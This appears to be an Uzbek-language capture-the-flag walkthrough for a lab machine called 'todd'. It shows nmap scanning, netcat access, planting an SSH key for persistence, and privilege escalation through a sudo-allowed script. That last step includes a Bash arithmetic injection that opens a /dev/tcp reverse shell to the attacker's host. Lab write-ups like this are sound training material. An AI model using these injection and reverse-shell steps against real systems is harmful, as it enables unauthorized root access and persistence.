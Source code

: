 ## Reconnaissance

### Dastlabki Nmap skanerlash
```bash
$ nmap -sV -sC -p- 192.168.56.3 -A

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp    open  http       Apache httpd 2.4.59 ((Debian))
2519/tcp  open  tcpwrapped
4470/tcp  open  tcpwrapped
...
```

### Ikkinchi Nmap skanerlash qiziqarli portni ko'rsatadi
```bash
$ nmap -sV -p- 192.168.56.3
-----------
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp    open  http       Apache httpd 2.4.59 ((Debian))
7066/tcp  open  unknown
...
```

Eslatma: Port 7066 vaqti-vaqti bilan paydo bo'ladi.

## 7066 port orqali dastlabki kirish

### Doimiy ulanishga urinish
```bash
$ while true;do nc 192.168.56.3 7066;done
(UNKNOWN) [192.168.56.3] 7066 (?) : Connection refused
(UNKNOWN) [192.168.56.3] 7066 (?) : Connection refused
whoami
todd
```

### SSH Accessni o'rnatish
1. SSH kalit yarating:
```bash
ssh-keygen -t rsa -f todd
```

2. Maqsadli mashinada:
```bash
mkdir -p /home/todd/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCOd2qBPt87qsYOMlBoxpn6uTqyKwHLIXcNj8eO.... void-strike@athena" > /home/todd/.ssh/authorized_keys
```

3. SSH orqali ulanish:
```bash
ssh todd@192.168.56.3 -i ~/.ssh/todd
```

## Privilege Escalation

### Sudo imtiyozlarini tekshirish
```bash
$ sudo -l
Matching Defaults entries for todd on todd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User todd may run the following commands on todd:
    (ALL : ALL) NOPASSWD: /bin/bash /srv/guess_and_check.sh
    (ALL : ALL) NOPASSWD: /usr/bin/rm
    (ALL : ALL) NOPASSWD: /usr/sbin/reboot
```

### guess_and_check.sh
```bash
# check this script used by human 
a=$((RANDOM%1000))
echo "Please Input [$a]"

echo "[+] Check this script used by human."
echo "[+] Please Input Correct Number:"
read -p ">>>" input_number

[[ $input_number -ne "$a" ]] && exit 1

sleep 0.2
true_file="/tmp/$((RANDOM%1000))"
sleep 1
false_file="/tmp/$((RANDOM%1000))"

[[ -f "$true_file" ]] && [[ ! -f "$false_file" ]] && cat /root/.cred || exit 2
```

### 1-usul: Fayl yaratishdan foydalanish
1. Ehtimollikni oshirish uchun soxta fayllar yarating:
```bash
for i in {1..600}; do touch /tmp/$i ;done
```

2. Kalitni olmaguncha skriptni qayta-qayta ishga tushiring:
```bash
sudo /bin/bash /srv/guess_and_check.sh
```

### 2-usul: buyruqni kiritish
1. Kirish orqali ixtiyoriy buyruqlarni bajaring:
```bash
Please Input [316]
[+] Check this script used by human.
[+] Please Input Correct Number:
>>>N[$(/bin/bash -i >& /dev/tcp/192.168.56.1/9001 0>&1)]
```

2. Tinglovchini sozlash:
```bash
nc -vlnp 9001
```

### Buyruq in'ektsiyasini tushuntirish
`N[$(cat /root/root.txt)]` kiritish arifmetik kontekstda talqin qilinadi, bu esa Bashning bayroq tarkibini arifmetik sifatida baholashga urinishiga sabab bo'ladi, bu esa muvaffaqiyatsizlikka uchraydi va xato xabaridagi bayroq mazmunini ko'rsatadi.

## Root Access
Rootga oʻtish uchun /root/.cred hisob maʼlumotlaridan foydalaning:
```bash
su
Password: [content of /root/.cred]
root@todd:/home/todd#
```

Yoki in'ektsiya orqali olingan teskari qobiq orqali.
